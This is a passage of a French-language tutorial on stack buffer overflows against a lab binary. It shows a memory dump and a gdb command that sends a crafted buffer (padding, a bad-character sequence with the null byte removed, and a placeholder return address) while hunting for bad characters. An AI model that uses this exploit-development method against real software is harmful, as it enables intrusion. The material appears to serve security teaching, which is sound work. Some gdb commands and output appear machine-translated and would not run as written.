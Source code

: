 Ici, nous reconnaissons à quelle adresse commence notre "`\x55`". À partir de là, nous pouvons descendre plus bas et rechercher l'endroit où commence notre `CHARS`.

#### La pile - CHARS

La pile - CHARS

```
<SNIP>
0xffffd5aa : 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b2 : 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5ba : 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
# |---> début CARS

0xffffd5c2 : 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
0xffffd5ca : 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
0xffffd5d2 : 0x15 0x16 0x17 0x18 0x19 0x1a 0x1b 0x1c
<SNIP>

```

Nous voyons où se termine notre "`\x55`" et où commence la variable `CHARS`. Mais si nous y regardons de près, nous verrons qu'il commence par "`\x01`" au lieu de "`\x00`". Nous avons déjà vu l'avertissement lors de l'exécution indiquant que l' `octet nul` dans notre entrée a été ignoré.

Nous pouvons donc noter ce caractère, le supprimer de notre variable `CHARS` et ajuster le numéro de notre "`\x55`".

#### Remarques

Remarques

```
# Soustrayez le nombre de caractères supprimés
Tampon = "\x55" * (1040 - 255 - 4) = 781

# "\x00" supprimé : 256 - 1 = 255 octets
  CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"

    EIP = "\x66" * 4

```

#### Envoyer CHARS - Sans octet nul

Envoyer CHARS - Sans octet nul

```
(gdb) exécutez $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe \xff" + "\x66" * 4')

Le programme en cours de débogage a déjà été lancé.
Commencer depuis le début ? (o ou n) o

Programme de démarrage : /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>.. .\xfc\xfd\xfe\xff" + "\x66" * 4')
Point d'arrêt 1, 0x56555551 dans bowfunc ()

```
